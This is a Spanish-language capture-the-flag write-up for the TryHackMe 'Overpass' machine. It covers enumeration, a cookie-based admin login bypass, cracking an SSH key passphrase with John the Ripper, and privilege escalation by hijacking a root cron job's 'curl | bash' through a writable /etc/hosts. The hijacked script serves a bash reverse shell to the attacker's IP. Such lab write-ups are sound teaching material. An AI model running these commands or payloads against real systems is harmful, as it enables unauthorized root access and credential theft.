



# Overpass TryHackMe

- Ip atacante - 10.6.53.128
- Ip victima - 10.10.165.13

## Enumeracion 

Realizamos una enumeracion basica con nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.10.165.13     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-30 19:32 EDT
Nmap scan report for 10.10.165.13
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Viendo la pagina tiene el directorio de ``/about`` la cual nos da los nombre de los creadores y quiza sean nombre de usuario para la maquina. 

Asi mismo tenemos ``/downloads`` el cual nos da links de desacargas para la aplicacion. 

Buscando mas directorios con la herramienta de ``dirb`` encontramos un ``/admin``

```bash
❯ dirb http://10.10.165.13

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Mar 30 19:36:09 2023
URL_BASE: http://10.10.165.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.165.13/ ----
==> DIRECTORY: http://10.10.165.13/aboutus/
+ http://10.10.165.13/admin (CODE:301|SIZE:42)
==> DIRECTORY: http://10.10.165.13/css/
==> DIRECTORY: http://10.10.165.13/downloads/
[...]
```

Entrando en la pagina intentamos con los usuarios e intentamos realizar SQLI pero no funciono. Viendo la red para ver que realizaba la pagina, encontramos un login.js el cual espera una cookie y dependiendo de eso nos deja entrar



Asi que creamos un cookie llamada SessionToken



Recargamos la pagina y nos deja ver un private key



## Nos conectamos mediante SSH

Nos copiamos el private key a nuestra maquina y cuando intentamos entrar con el usuario de james con ssh nos pide credenciales

```bash
❯ ssh james@10.10.165.13 -i privkey                    
The authenticity of host '10.10.165.13 (10.10.165.13)' can't be established.
ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.165.13' (ED25519) to the list of known hosts.
Enter passphrase for key 'privkey':
```

Debido a que no tengo credenciales voy a intentar usar jhontheripper para obtener el valor de la credencial. Quiza ellos no usan una contraseña segura

```bash
❯ ssh2john privkey > privhash

❯ john -w=/usr/share/wordlists/rockyou.txt privhash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*****13          (privkey)     
1g 0:00:00:00 DONE (2023-03-30 20:03) 16.66g/s 222933p/s 222933c/s 222933C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Ahora si obteniendo el valor ingresamos mediante ssh y obtenemos la primera flag de user

### user flag
```bash
james@overpass-prod:~$ cat user.txt 
thm{************************281e6bf7}
```

leyendo el usuario james tiene un ``todo.txt``

```bash
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

## Escalando privilegios

Pasamos linpeas
```bash
james@overpass-prod:/tmp$ wget http://10.6.53.128/linpeas.sh
--2023-03-31 00:19:03--  http://10.6.53.128/linpeas.sh
Connecting to 10.6.53.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828260 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh   100%[====================>] 808.85K   389KB/s    in 2.1s    

2023-03-31 00:19:06 (389 KB/s) - ‘linpeas.sh’ saved [828260/828260]

james@overpass-prod:/tmp$ chmod +x linpeas.sh 
james@overpass-prod:/tmp$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
[...]
```

Dentro de linpeas encontramos 
```bash
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Este script que esta intentando hacer un curl desde overpass.thm
Linpeas tmb nos dice que podemos escribir en ``/etc/hosts``

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/hosts
/home/james
/run/lock
[...]
```

Sabiendo esto podemos engañar a la computadora alterando el ``/etc/hosts``
cambiamos el ``127.0.1.1`` por nuetra IP. Quedaria de la siguiente forma:

```bash
james@overpass-prod:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.6.53.128 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

En mi maquina creo mis carpetas

```bash
❯ mkdir downloads downloads/src

❯ cat downloads/src/buildscript.sh
#!/bin/bash
bash -i >& /dev/tcp/10.6.53.128/443 0>&1;
```

Nos montamos un servidor con python y a la vez nos ponemos en escucha por el puerto 443 que pusimos arriba

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.165.13 - - [30/Mar/2023 20:36:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200
```

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.53.128] from (UNKNOWN) [10.10.165.13] 52964
bash: cannot set terminal process group (16678): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### root flag

```bash
root@overpass-prod:~# cat root.txt
cat root.txt
thm{************************4ea753bb}
```